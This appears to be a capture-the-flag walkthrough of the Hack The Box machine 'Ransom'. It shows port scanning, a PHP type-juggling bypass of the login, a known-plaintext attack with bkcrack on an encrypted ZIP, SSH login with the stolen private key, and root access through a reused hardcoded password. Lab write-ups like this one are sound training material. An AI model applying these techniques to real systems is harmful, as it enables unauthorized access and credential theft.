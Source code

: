 ```yaml
---
title: Ransom
published: true
layout: post
---
```


<br />

---------------
Ransom is a medium-difficulty Linux machine that starts with a password-protected web application, hosting some files. An attacker is able to bypass the authentication process by modifying the request type and type juggling the arguments. Once access to the files is obtained, a Zip archive of a home directory is downloaded. The archive is encrypted using a legacy method that is vulnerable to a known-plaintext attack. Upon decrypting the archive, the attacker can access the box via SSH, using the uncovered private key. Enumerating the remote machine, the hardcoded password that was required by the webpage is found and reused to authenticate as the root user. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/wCKuHlDOLs0?si=dFYsYvCcLT9MD2JF" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 2 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sT 10.10.11.153 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.153 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sU 10.10.11.153 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp Apache httpd 2.4.41 ((Ubuntu))**

<br />

------
<br />
### Foothold

The first thing we will encounter inspecting the website is a **login panel**, that only requires a password:<br />
![](/assets/Ransom/1.png)
<br />
<br />

I tried brute forcing, but it didn't work, the website even have brute-force protection, but checking **Burp Suite** revealed an **API endpoint** after clicking on Login:<br />
![](/assets/Ransom/2.png)
<br />
<br />

Trying different things in the password parameter I got an error:<br />
![](/assets/Ransom/3.png)
<br />
<br />

This is an error in **JSON format**, so I tried to **send the data in the request body** instead of in the header:<br />
![](/assets/Ransom/4.png)
<br />
<br />

We know by the technologies of the website that it's using PHP, we can try some types of **type juggling**, I tried some attacks until I find the right one:<br />
![](/assets/Ransom/5.png)
<br />
<br />

In PHP if we **compare a numeric 0 to a string** it returns a **True** value. So we can bypass the login this way, let's intercept the request with BurpSuite and login:<br />
![](/assets/Ransom/6.png)
<br />
<br />

------
<br />
### Privilege Escalation

We got the user flag, but we didn't actually get access to the machine, there is an interesting file that we can download, let's inspect it:

```bash
7z x uploaded-file-3422.zip
```

![](/assets/Ransom/7.png)
<br />
<br />

This file seems to be protected, however we can still list the files:

```bash
7z l -slt uploaded-file-3422.zip
```

![](/assets/Ransom/8.png)
<br />
<br />

Although the files are protected, I searched for a way to break the password encryption of a ZIP file, after trying bruteforcing, I found a [tool](https://github.com/kimci86/bkcrack/tree/master) that target the **ZipCrypto method**, let's download it and install it:

```bash
git clone https://github.com/kimci86/bkcrack.git
cd bkcrack
cmake -S . -B build -DCMAKE_INSTALL_PREFIX=install
cmake --build build --config Release
cmake --build build --config Release --target install
export PATH=$PATH:/usr/local
```
<br />

Now, we can view easily the files in the zip file:

```bash
bkcrack -L uploaded-file-3422.zip
```

![](/assets/Ransom/9.png)
<br />
<br />

There is a private key which may allow us to log in the target machine. Searching for more information about this compression method, it seems that there is a way to bypass it. A known plaintext attack is one in which we have knowledge about some of the text that is encrypted. In this case, the more amount of known text we have the best, so I will use the .bash_logout file as the plain knowntext file, to use it we first need to encrypt the file in the same way that the original one is to then get some keys:

```bash
cp ~/.bash_logout bash_logout
7z a --mm=Deflate bash_logout.zip bash_logout
bkcrack -C uploaded-file-3422.zip -c .bash_logout -P bash_logout.zip -p bash_logout
```

![](/assets/Ransom/10.png)
<br />
<br />

In the previous command, we indicate the target ZIP with the `-C` parameter, the target encrypted file inside the target ZIP with `-c`, our created ZIP file with `-P` and the known plaintext with `-p`. We successfully retrieved the keys, which we can use to remove the password protection of the ZIP file and decrypt it:

```bash
bkcrack -C uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -D no_password.zip
mkdir target_directory
mv no_password.zip target_directory/
unzip no_password.zip
```

![](/assets/Ransom/11.png)
<br />
<br />

We can see the user we are going to connect to inspecting the public SSH key and then use the private key to log in:

```bash
cat .ssh/id_rsa.pub
ssh -i .ssh/id_rsa htb@10.10.11.153
```

![](/assets/Ransom/12.png)
<br />
<br />

Great!!! We are logged in, now we need to escalate privileges. The first thing we can do is inspect the website files, to do this we can check where they are located:

```bash
cat /etc/apache2/sites-enabled/000-default.conf
```

![](/assets/Ransom/13.png)
<br />
<br />

In this directory I didn't know what to look for, so I searched for the login site to see if there was any hard-coded credentials:

```bash
grep -r "Invalid Password"
cat app/Http/Controllers/AuthController.php | grep password
```

![](/assets/Ransom/14.png)
<br />
<br />

There are hard-coded credentials, now we can try them to see if they belong to the root user:

```bash
su root
```

![](/assets/Ransom/15.png)
<br />
<br />
